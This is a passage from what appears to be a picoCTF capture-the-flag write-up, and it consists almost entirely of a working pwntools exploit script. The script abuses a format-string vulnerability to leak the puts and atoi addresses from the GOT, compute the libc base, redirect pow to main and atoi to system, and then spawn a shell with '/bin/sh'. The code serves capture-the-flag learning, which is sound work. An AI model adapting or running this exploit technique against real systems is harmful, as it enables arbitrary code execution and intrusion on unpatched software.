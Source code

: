 Putting it all together, we get:

```python
# First, generate a pwntools template with:
#  pwn template --host mars.picoctf.net --port 31929 ./chall
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

def send_payload(io, a, b):
    log.info(f"Sending:\nA:\n{a}\nB:\n{hexdump(b)}")
    io.sendlineafter("A: ", a)
    io.sendlineafter("B: ", b)

def send_format(io, format, values):
    format_prefix = b'111_'
    values_prefix = b'1111111_'
    send_payload(io, format_prefix + format, values_prefix + values)
    out = io.recvline()
    arr = out.split(b" and ")
    res = arr[0].replace(b"Calculating for A: " + format_prefix, b"")
    log.info(f"Received:\n{hexdump(res)}")
    return res

if args.LOCAL:
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

io = start()

log.info(f"puts() GOT address: {hex(exe.got['puts'])}")
log.info(f"atoi() GOT address: {hex(exe.got['atoi'])}")

fmt_first_offset = 43

loop_main_fmt, loop_main_address = fmtstr_split(fmt_first_offset + 2, {exe.got["pow"]: exe.symbols["main"]}, numbwritten = 0x25)
io = start()
output = send_format(io, f"%{fmt_first_offset}$s.%{fmt_first_offset + 1}$s.".encode("ascii") + loop_main_fmt, p64(exe.got["puts"]) + p64(exe.got["atoi"]) + loop_main_address)
puts_addr_str, atoi_addr_str, *rest = output.split(b".")
puts_addr = int.from_bytes(puts_addr_str, "little") 
log.info(f"puts() runtime address: {hex(puts_addr)}")
atoi_addr = int.from_bytes(atoi_addr_str, "little") 
log.info(f"atoi() runtime address: {hex(atoi_addr)}")


libc.address = puts_addr - libc.symbols["puts"]
assert(libc.address & 0xFFF == 0)

log.info(f"LibC base address: {hex(libc.address)}")

atoi_to_system_fmt, atoi_to_system_address = fmtstr_split(fmt_first_offset, {exe.got["atoi"]: libc.symbols["system"]}, numbwritten = 0x17)
send_format(io, atoi_to_system_fmt, atoi_to_system_address)

send_payload(io, "/bin/sh", "dummy")

```